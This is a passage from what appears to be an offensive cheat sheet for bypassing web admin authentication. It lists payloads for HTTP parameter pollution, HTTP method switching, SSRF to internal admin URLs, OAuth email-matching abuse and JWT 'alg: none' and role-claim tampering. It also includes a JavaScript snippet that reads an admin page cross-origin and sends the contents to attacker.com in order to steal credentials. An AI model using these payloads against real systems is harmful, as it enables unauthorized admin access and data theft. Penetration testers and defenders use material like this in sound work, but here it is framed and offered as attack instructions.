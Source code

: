 
### **12. HTTP Parameter Pollution (HPP)**
- Some servers incorrectly handle duplicate parameters:
  ```
  POST /admin/login HTTP/1.1
  username=admin&password=wrongpass&password=correctpass
  ```
- The backend might authenticate using the last `password` parameter.

---

### **13. HTTP Method Manipulation**
- If `GET /admin` is blocked, try:
  ```
  POST /admin
  HEAD /admin
  OPTIONS /admin
  ```
- Sometimes, different methods bypass authentication.

---

### **14. SSRF (Server-Side Request Forgery)**
- If the application allows fetching external URLs:
  ```
  /fetch?url=http://localhost/admin
  ```
- This can be used to access internal admin URLs.

---

### **15. OAuth / SSO Misconfiguration**
- Some apps allow OAuth logins (e.g., Google, GitHub).
- Check if weak email matching allows unauthorized logins.
- Example: If `admin@example.com` is an admin, try registering `admin@example.com+test@gmail.com`.

---

### **16. CORS Misconfiguration**
- If `Access-Control-Allow-Origin: *` is enabled, steal admin credentials using:
  ```js
  fetch("https://target.com/admin", {credentials: "include"})
    .then(res => res.text())
    .then(data => fetch("https://attacker.com/log?data=" + encodeURIComponent(data)))
  ```

---

### **17. JWT Manipulation**
- If JWT authentication is used:
  - Try setting `alg: none` in the header.
  - Modify claims like:
    ```json
    { "role": "admin" }
    ```
- Tools: [jwt_tool](https://github.com/ticarpi/jwt_tool)

---